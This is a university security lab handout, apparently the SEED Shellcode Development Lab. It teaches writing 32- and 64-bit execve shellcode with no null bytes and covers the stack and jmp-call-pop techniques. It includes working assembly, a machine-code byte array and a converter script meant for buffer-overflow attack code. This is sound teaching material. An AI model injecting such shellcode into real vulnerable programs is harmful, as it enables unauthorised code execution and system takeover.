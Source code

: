 =========================
Shellcode Development Lab
=========================

Overview
========

Shellcode is widely used in many attacks that involve code injection.
Writing shellcode is quite challenging. Although we can easily find
existing shellcode from the Internet, there are situations where we have
to write a shellcode that satisfies certain specific requirements.
Moreover, to be able to write our own shellcode from scratch is always
exciting. There are several interesting techniques involved in
shellcode. The purpose of this lab is to help students understand these
techniques so they can write their own shellcode.

There are several challenges in writing shellcode, one is to ensure that
there is no zero in the binary, and the other is to find out the address
of the data used in the command. The first challenge is not very
difficult to solve, and there are several ways to solve it. The
solutions to the second challenge led to two typical approaches to write
shellcode. In one approach, data are pushed into the stack during the
execution, so their addresses can be obtained from the stack pointer. In
the second approach, data are stored in the code region, right after a
``call`` instruction. When the ``call`` instruction is executed, the
address of the data is treated as the return address, and is pushed into
the stack. Both solutions are quite elegant, and we hope students can
learn these two techniques. This lab covers the following topics:

-  Shellcode

-  Assembly code

-  Disassembling

**Readings and videos.** Detailed coverage of the shellcode can be found in the following:

-  Chapters 4.7 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition,
   by Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

-  Section 4 of the SEED Lecture (Lecture 30), Computer Security: A Hands-on Approach, by Wenliang
   Du. See details at `<https://www.handsonsecurity.net/video.html>`_.

**Lab environment.** This lab has been tested on the SEED Ubuntu 20.04 VM. You can download a pre-built
image from the SEED website, and run the SEED VM on your own computer. However, most of the SEED
labs can be conducted on the cloud, and you can follow our instruction to create a SEED VM on the cloud.

Task 1: Writing Shellcode
=========================

In this task, we will first start with a shellcode example, to
demonstrate how to write a shellcode. After that, we ask students to
modify the code to accomplish various tasks.

Shellcode is typically written using assembly languages, which depend on
the computer architecture. We will be using the Intel architectures,
which have two types of processors: x86 (for 32-bit CPU) and x64 (for
64-bit CPU). In this task, we will focus on 32-bit shellcode. In the
final task, we will switch to 64-bit shellcode. Although most of the
computers these days are 64-bit computers, they can run 32-bit programs.

Task 1.a: The Entire Process
----------------------------

In this task, we provide a basic x86 shellcode to show students how to
write a shellcode from scratch. Students can download this code from the
lab’s website, go through the entire process described in this task. The
code is provided in the following. **Note:** please do not copy and
paste from this PDF file, because some of characters might be changed
due to the copy and paste. Instead, download the file from the lab’s
website.

Brief explanation of the code is given in the comment, but if students
want to see a full explanation, they can find much more detailed
explanation of the code in the SEED book (Chapter 4.7) and also in the
SEED lecture (Lecture 30 of the Computer Security course). Below is listing
1: A basic shellcode example ``mysh.s``.

::

   section .text
     global _start
       _start:
         ; Store the argument string on stack
         xor  eax, eax
         push eax          ; Use 0 to terminate the string  
         push "//sh"       ;                                  ➊
         push "/bin"
         mov  ebx, esp     ; Get the string address

         ; Construct the argument array argv[]
         push eax          ; argv[1] = 0                      ➋
         push ebx          ; argv[0] points to the cmd string ➌
         mov  ecx, esp     ; Get the address of argv[]

         ; For environment variable 
         xor  edx, edx     ; No env variable                  ➍

         ; Invoke execve()
         xor  eax, eax     ; eax = 0x00000000
         mov   al, 0x0b    ; eax = 0x0000000b 
         int 0x80

**Compiling to object code.** We compile the assembly code above (``mysh.s``) using ``nasm``, which is
an assembler and disassembler for the Intel x86 and x64 architectures.
The ``-f elf32`` option indicates that we want to compile the code to
32-bit ELF binary format. The Executable and Linkable Format (ELF) is a
common standard file format for executable file, object code, shared
libraries. For 64-bit assembly code, ``elf64`` should be used.

::

   $ nasm -f elf32 mysh.s -o mysh.o

**Linking to generate final binary.** Once we get the object code ``mysh.o``, if we want to generate the
executable binary, we can run the linker program ``ld``, which is the
last step in compilation. The ``-m elf_i386`` option means generating
the 32-bit ELF binary. After this step, we get the final executable code
``mysh``. If we run it, we can get a shell. Before and after running
``mysh``, we print out the current shell’s process IDs using
``echo $$``, so we can clearly see that ``mysh`` indeed starts a new
shell.

::

   $ ld -m elf_i386 mysh.o -o mysh

   $ echo $$
   25751      <-- the process ID of the current shell
   $ mysh
   $ echo $$
   9760       <-- the process ID of the new shell

**Getting the machine code.** During the attack, we only need the machine code of the shellcode, not a
standalone executable file, which contains data other than the actual
machine code. Technically, only the machine code is called shellcode.
Therefore, we need to extract the machine code from the executable file
or the object file. There are various ways to do that. One way is to use
the ``objdump`` command to disassemble the executable or object file.

There are two different common syntax modes for assembly code, one is
the AT&T syntax mode, and the other is Intel syntax mode. By default,
``objdump`` uses the AT&T mode. In the following, we use the ``-Mintel``
option to produce the assembly code in the Intel mode.

::

   $ objdump -Mintel --disassemble mysh.o
   mysh.o:     file format elf32-i386

   Disassembly of section .text:

   00000000 <_start>:
      0:   31 db    xor    ebx,ebx
      2:   31 c0    xor    eax,eax
               ... (code omitted) ...
     1f:   b0 0b    mov    al,0xb
     21:   cd 80    int    0x80

In the above printout, the highlighted numbers are machine code. You can
also use the ``xxd`` command to print out the content of the binary
file, and you should be able to find out the shellcode’s machine code
from the printout.

::

   $ xxd -p -c 20 mysh.o
   7f454c4601010100000000000000000001000300
   ...
   00000000000000000000000031db31c0b0d5cd80
   31c050682f2f7368682f62696e89e3505389e131
   d231c0b00bcd8000000000000000000000000000
   ...

**Using the shellcode in attacking code.** In actual attacks, we need to include the shellcode in our attacking
code, such as a Python or C program. We usually store the machine code
in an array, but converting the machine code printed above to the array
assignment in Python and C programs is quite tedious if done manually,
especially if we need to perform this process many times in the lab. We
wrote the following Python code to help this process. Just copy whatever
you get from the ``xxd`` command (only the shellcode part) and paste it
to the following code, between the lines marked by ``"""``. The code can
be downloaded from the lab’s website. Listing 2: ``convert.py``.

::

   #!/usr/bin/env python3

   # Run "xxd -p -c 20 mysh.o", and
   # copy and paste the machine code part to the following:
   ori_sh ="""
   31db31c0b0d5cd80
   31c050682f2f7368682f62696e89e3505389e131
   d231c0b00bcd80
   """

   sh = ori_sh.replace("\n", "")

   length  = int(len(sh)/2)
   print("Length of the shellcode: {}".format(length))
   s = 'shellcode= (\n' + '   "'
   for i in range(length):
       s += "\\x" + sh[2*i] + sh[2*i+1]
       if i > 0 and i % 16 == 15:
          s += '"\n' + '   "'
   s += '"\n' + ").encode('latin-1')"
   print(s)

The ``convert.py`` program will print out the following Python code that
you can include in your attack code. It stores the shellcode in a Python
array.

::

   $ ./convert.py
   Length of the shellcode: 35
   shellcode= (
      "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
      "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
      "\x0b\xcd\x80"
   ).encode('latin-1')

Task 1.b. Eliminating Zeros from the Code
-----------------------------------------

Shellcode is widely used in buffer-overflow attacks. In many cases, the
vulnerabilities are caused by string copy, such as the ``strcpy()``
function. For these string copy functions, zero is considered as the end
of the string. Therefore, if we have a zero in the middle of a
shellcode, string copy will not be able to copy anything after the zero
from this shellcode to the target buffer, so the attack will not be able
to succeed.

Although not all the vulnerabilities have issues with zeros, it becomes
a requirement for shellcode not to have any zero in the machine code;
otherwise, the application of a shellcode will be limited.

There are many techniques that can get rid of zeros from the shellcode.
The code ``mysh.s`` needs to use zeros in four different places. Please
identify all of those places, and explain how the code uses zeros but
without introducing zero in the code. Some hints are given in the
following:

-  If we want to assign zero to ``eax``, we can use ``"mov eax, 0"``,
   but doing so, we will get a zero in the machine code. A typical way
   to solve this problem is to use ``"xor eax, eax"``. Please explain
   why this would work.

-  If we want to store ``0x00000099`` to ``eax``. We cannot just use
   ``mov eax, 0x99``, because the second operand is actually
   ``0x00000099``, which contains three zeros. To solve this problem, we
   can first set ``eax`` to zero, and then assign a one-byte number
   ``0x99`` to the ``al`` register, which is the least significant 8
   bits of the ``eax`` register.

-  Another way is to use shift. In the following code, first
   ``0x237A7978`` is assigned to ``ebx``. The ASCII values for ``x``,
   ``y``, ``z``, and ``#`` are ``0x78``, ``0x79``, ``0x7a``, ``0x23``,
   respectively. Because most Intel CPUs use the small-Endian byte
   order, the least significant byte is the one stored at the lower
   address (i.e., the character ``x``), so the number presented by
   ``xyz#`` is actually ``0x237A7978``. You can see this when you
   dissemble the code using ``objdump``.

   After assigning the number to ``ebx``, we shift this register to the
   left for 8 bits, so the most significant byte ``0x23`` will be pushed
   out and discarded. We then shift the register to the right for 8
   bits, so the most significant byte will be filled with ``0x00``.
   After that, ``ebx`` will contain ``0x007A7978``, which is equivalent
   to ``"xyz\0"``, i.e., the last byte of this string becomes zero.

   ::

      mov  ebx, "xyz#"
      shl  ebx, 8
      shr  ebx, 8

**Task.** In Line ➊ of the shellcode ``mysh.s``, we push ``"//sh"`` into the stack.
Actually, we just want to push ``"/sh"`` into the stack, but the
``push`` instruction has to push a 32-bit number. Therefore, we add a
redundant ``/`` at the beginning; for the OS, this is equivalent to just
one single ``/``.

For this task, we will use the shellcode to execute ``/bin/bash``, which
has 9 bytes in the command string (10 bytes if counting the zero at the
end). Typically, to push this string to the stack, we need to make the
length multiple of 4, so we would convert the string to
``/bin////bash``.

However, for this task, you are not allowed to add any redundant ``/``
to the string, i.e., the length of the command must be 9 bytes
(``/bin/bash``). Please demonstrate how you can do that. In addition to
showing that you can get a bash shell, you also need to show that there
is no zero in your code.

Task 1.c. Providing Arguments for System Calls
----------------------------------------------

Inside ``mysh.s``, in Lines ➋ and ➌, we construct the ``argv[]`` array for
the ``execve()`` system call. Since our command is ``/bin/sh``, without
any command-line arguments, our ``argv`` array only contains two
elements: the first one is a pointer to the command string, and the
second one is zero.

In this task, we need to run the following command, i.e., we want to use
``execve`` to execute the following command, which uses ``/bin/sh`` to
execute the ``"ls -la"`` command.

::

   /bin/sh -c "ls -la"

In this new command, the ``argv`` array should have the following four
elements, all of which need to be constructed on the stack. Please
modify ``mysh.s`` and demonstrate your execution result. As usual, you
cannot have zero in your shellcode (you are allowed to use redundant /).

::

   argv[3] = 0
   argv[2] = "ls -la"
   argv[1] = "-c"
   argv[0] = "/bin/sh"

Task 1.d. Providing Environment Variables for ``execve()``
----------------------------------------------------------

The third parameter for the ``execve()`` system call is a pointer to the
environment variable array, and it allows us to pass environment
variables to the program. In our sample program (Line ➍), we pass a null
pointer to ``execve()``, so no environment variable is passed to the
program. In this task, we will pass some environment variables.

If we change the command ``"/bin/sh"`` in our shellcode ``mysh.s`` to
``"/usr/bin/env"``, which is a command to print out the environment
variables. You can find out that when we run our shellcode, there will
be no output, because our process does not have any environment
variable.

In this task, we will write a shellcode called ``myenv.s``. When this
program is executed, it executes the ``"/usr/bin/env"`` command, which
can print out the following environment variables:

::

   $ ./myenv
   aaa=1234
   bbb=5678
   cccc=1234

It should be noted that the value for the environment variable ``cccc``
must be exactly 4 bytes (no space is allowed to be added to the tail).
We intentionally make the length of this environment variable string
(name and value) not multiple of 4.

To write such a shellcode, we need to construct an environment variable
array on the stack, and store the address of this array to the ``edx``
register, before invoking ``execve()``. The way to construct this array
on the stack is exactly the same as the way how we construct the
``argv[]`` array. Basically, we first store the actual environment
variable strings on the stack. Each string has a format of
``name=value``, and it is terminated by a zero byte. We need to get the
addresses of these strings. Then, we construct the environment variable
array, also on the stack, and store the addresses of the strings in this
array. The array should look like the following (the order of the
elements ``0``, ``1``, and ``2`` does not matter):

::

   env[3] = 0   // 0 marks the end of the array
   env[2] = address to the "cccc=1234" string
   env[1] = address to the "bbb=5678"  string
   env[0] = address to the "aaa=1234"  string

Task 2: Using Code Segment
==========================

As we can see from the shellcode in Task 1, the way how it solves the
data address problem is that it dynamically constructs all the necessary
data structures on the stack, so their addresses can be obtained from
the stack pointer ``esp``.

There is another approach to solve the same problem, i.e., getting the
address of all the necessary data structures. In this approach, data are
stored in the code region, and its address is obtained via the function
call mechanism. Let’s look at the following code: mysh2.s

::

   section .text
     global _start
       _start:
           BITS 32
           jmp short two
       one:
           pop ebx                   ➊
           xor eax, eax
           mov [ebx+7],  al  ; save 0x00 (1 byte) to memory at address ebx+7
           mov [ebx+8],  ebx ; save ebx (4 bytes) to memory at address ebx+8
           mov [ebx+12], eax ; save eax (4 bytes) to memory at address ebx+12
           lea ecx, [ebx+8]  ; let ecx = ebx + 8
           xor edx, edx
           mov al,  0x0b
           int 0x80
        two:
           call one
           db '/bin/sh*AAAABBBB' ;  ➋

The code above first jumps to the instruction at location ``two``, which
does another jump (to location ``one``), but this time, it uses the
``call`` instruction. This instruction is for function call, i.e.,
before it jumps to the target location, it keeps a record of the address
of the next instruction as the return address, so when the function
returns, it can return to the instruction right after the ``call``
instruction.

In this example, the “instruction” right after the ``call`` instruction
(Line ➋) is not actually an instruction; it stores a string. However,
this does not matter, the ``call`` instruction will push its address
(i.e., the string’s address) into the stack, in the return address field
of the function frame. When we get into the function, i.e., after
jumping to location ``one``, the top of the stack is where the return
address is stored. Therefore, the ``pop ebx`` instruction in Line ➊
actually get the address of the string on Line ➋, and save it to the
``ebx`` register. That is how the address of the string is obtained.

The string at Line ➋ is not a completed string; it is just a place holder.
The program needs to construct the needed data structure inside this
place holder. Since the address of the string is already obtained, the
address of all the data structures constructed inside this place holder
can be easily derived.

If we want to get an executable, we need to use the ``–omagic`` option
when running the linker program (``ld``), so the code segment is
writable. By default, the code segment is not writable. When this
program runs, it needs to modify the data stored in the code region; if
the code segment is not writable, the program will crash. This is not a
problem for actual attacks, because in attacks, the code is typically
injected into a writable data segment (e.g. stack or heap). Usually we
do not run shellcode as a standalone program.

::

   $ nasm -f elf32 mysh2.s -o mysh2.o
   $ ld --omagic -m elf_i386 mysh2.o -o mysh2

**Tasks.** You need to do the followings: (1) Please provide a detailed explanation
for each line of the code in ``mysh2.s``, starting from the line labeled
``one``. Please explain why this code would successfully execute the
``/bin/sh`` program, how the ``argv[]`` array is constructed, etc. (2)
Please use the technique from ``mysh2.s`` to implement a new shellcode,
so it executes ``/usr/bin/env``, and it prints out the following
environment variables:

::

   a=11
   b=22

Task 3: Writing 64-bit Shellcode
================================

Once we know how to write the 32-bit shellcode, writing 64-bit shellcode
will not be difficult, because they are quite similar; the differences
are mainly in the registers. For the x64 architecture, invoking system
call is done through the ``syscall`` instruction, and the first three
arguments for the system call are stored in the ``rdx``, ``rsi``,
``rdi`` registers, respectively. The following is an example of 64-bit
shellcode:

::

     section .text
     global _start
       _start:
         ; The following code calls execve("/bin/sh", ...)
         xor  rdx, rdx       ; 3rd argument (stored in rdx)
         push rdx
         mov rax,'/bin//sh'  
         push rax
         mov rdi, rsp        ; 1st argument (stored in rdi)
         push rdx
         push rdi
         mov rsi, rsp        ; 2nd argument (stored in rsi)
         xor  rax, rax
         mov al, 0x3b        ; execve()
         syscall

We can use the following commands to compile the assemble code into
64-bit binary code:

::

   $ nasm -f elf64 mysh_64.s -o mysh_64.o
   $ ld mysh_64.o -o mysh_64

**Task.** Repeat Task 1.b for this 64-bit shellcode. Namely, instead of executing
``"/bin/sh"``, we need to execute ``"/bin/bash"``, and we are not
allowed to use any redundant ``/`` in the command string, i.e., the
length of the command must be 9 bytes (``/bin/bash``). Please
demonstrate how you can do that. In addition to showing that you can get
a bash shell, you also need to show that there is no zero in your code.

Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.